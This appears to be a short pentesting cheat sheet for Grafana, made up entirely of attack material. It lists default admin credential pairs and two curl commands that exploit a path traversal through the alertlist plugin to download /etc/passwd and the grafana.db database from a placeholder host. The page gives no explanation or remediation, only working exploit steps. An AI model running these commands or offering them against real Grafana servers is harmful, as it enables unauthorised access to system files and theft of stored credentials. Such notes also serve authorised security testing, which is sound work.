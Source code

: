 ```yaml
---
title: Grafana Pentesting
desc: 
tags: [3000, Grafana, Web]
alts: []
render_with_liquid: false
---
```


## Default Credential

```sh
admin:admin
admin:prom-operator
```

<br />

## Path Traversal

```sh
 curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../etc/passwd -o passwd
 curl --path-as-is http://vulnerable.com:3000/public/plugins/alertlist/../../../../../../../../var/lib/grafana/grafana.db -o grafana.db
```